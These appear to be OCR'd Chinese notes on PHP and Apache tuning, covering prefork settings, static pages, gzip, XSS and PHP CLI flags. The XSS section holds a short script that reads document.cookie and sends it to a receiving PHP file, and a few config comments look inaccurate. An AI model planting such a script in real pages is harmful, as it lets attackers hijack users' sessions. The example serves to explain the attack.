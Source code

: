 4. mpm_prefork.c 
``` 
<IfModule mpm_prefork_module>  
    StartServers    5       #预先启动  
    MinSpareServers 5  
    MaxSpareServers 10      #最大空闲进程  
    ServerLimit     1500    #用于修改apache编程参数  
    MaxClients      1000    #最大并发数  
    MaxRequestsPerChild 0   #一个进程对应的线程数，对worker更用  
</IfModule> 
``` 
5. 如果你的网站pv值上百万  
ServerLimit     2500   #用于修改apache编程参数  
MaxClients      2000   #最大并发数  

## 静态化 ##

1. 页面URL长度不超过255字节  
2. meta信息尽量完整，keywords5个左右  
3. 前端不要使用框架  
4. 图片alt属性添加信息  
5. 静态页面不要带动态值  
```  
<script type="text/javascript" language="javascript" src="url"></script> 
url可以是js/php/图片等，返回的数据替换<script>标签所在位置的内容！相当于简单的Ajax
```   

## Apache压缩 ##

gzip/deflate 
 
## XSS攻击 ##

* 恶意JS代码  
* 不规则HTML代码  
  
开源过滤器：htmlpurifier  
  
### 获取COOKIE ###
``` 
<script>  
var c = document.cookie; //获取COOKIE  
var script = document.createElement('script'); //创建script标签  
script.src = 'demo.php?c=' + c; //发送到指定的文件接收  
document.body.appendChild(script); //添加到DOM对象中生效  
</script> 
``` 

## 命令行CLI ##

1. 显示帮助信息  
php -h  
2. 解析并运行-f选项给定的文件名 
``` 
php [-f] <file> [--] [args...] 
``` 
3. 在命令行内运行单行PHP代码  
```
php [options] -r <code> [--] [args...] 
``` 
无需加上PHP的起始和结束标识符，否则将会导致语法解析错误  
4. 调用phpinfo()函数并显示出结果
```  
php -i/--info  
```